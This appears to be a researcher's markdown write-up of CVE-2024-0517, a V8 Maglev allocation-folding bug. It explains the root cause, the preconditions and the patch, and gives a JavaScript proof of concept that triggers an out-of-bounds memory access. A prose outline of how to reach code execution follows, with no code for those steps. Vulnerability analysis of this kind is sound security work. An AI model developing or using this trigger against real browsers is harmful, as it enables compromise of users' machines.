


# CVE-2024-0517

## Bug:
- `VisitFindNonDefaultConstructorOrConstructMaglev` consists of the bug, This function tries to optimize a class which has a parent class. They method in which it is lowered is the problem here.
- [1000] = 8 will trigger a garbage collection.
- When GC occurs between 2 folded allocations, it will move the first allocated chunk somewhere else and free the other space as there is no object at that point in time pointing to it. Later when the `folded allocation` takes place OOB happens.



> note: In the image the chunks are **moved** from `young gen` to `old space`. The old and new just denotes the new and old allocation, not to be confused.
- `BuildAllocateFastObject()` function calls the `ExtendOrReallocateCurrentRawAllocation()` 
- Preconditions:
    - object whose instance being constructed should be constant => `if (!maybe_constant) return false;`
    - parent constructor should be a function => `if (!current.IsJSFunction()) return false;`
    - Checks if the `new_target_function` is a valid constructor => `if (new_target_function ＆＆ new_target_function-＞IsJSFunction() ＆＆ HasValidInitialMap(new_target_function-＞AsJSFunction(),current_function))`
    - This will call the `BuildAllocateFastObject` function to do the allocation for that object. In the young generations.

## Exploit:

- Get addrof primitive. Use the shellcode smuggling trick to get code excecution(wasm). 
- After this the instance of wasm was shifted to the trusted space so we need a new method to get a sanbox escape then get code excecution.

## patch:
- call `ClearCurrentRawAllocation` which make the `current_raw_allocation = null`. Both the allocations would have been made and the pointers would have been assigned. Hence it won't be folded across a GC() run, which causes the problem.
- wasm instance also has been put into a trusted zone and devs are trying to remove unsafe pointers from the instance.

## poc:
```js
function main() {
    class ClassParent {}
    class ClassBug extends ClassParent {
        constructor() {
            const v24 = new new.target();               // makes the checkvalue of the parent class to be constant with this call.
            super();                                    // Creates the instance of `this` object and allocates the memory required for storing infor for this object.
            let a = [9.9,9.9,9.9,1.1,1.1,1.1,1.1,1.1];  // After triggering the GC in the wrong folded allocation this gets allocated, which gives us OOB
        }
        [1000] = 8; // trigger the GC
    }
    // triggering the maglev optimizer.
    for (let i = 0; i < 300; i++) {
        Reflect.construct(ClassBug, [], ClassParent);
    }
}
%NeverOptimizeFunction(main);
main();
```

## Extras:
- new.target: Tells us if the object was instantiated with the `new` keyword, For classes it will provide a way to access the function with which it was created.
- Reflect.construct: It constructs a new object with the `target` class constructor and with the provided `argument list` for the `new target` class/ function.
- Allocation Folding: If there is a need for more space in the future, v8 tries to allocate the entire space in one go, and use what is required at that time.
- `FindNonDefaultConstructorOrConstruct`: construct the object by walking the prototype chain through the super() constructor. `VisitFindNonDefaultConstructorOrConstruct` will try to optimize/ lower this process.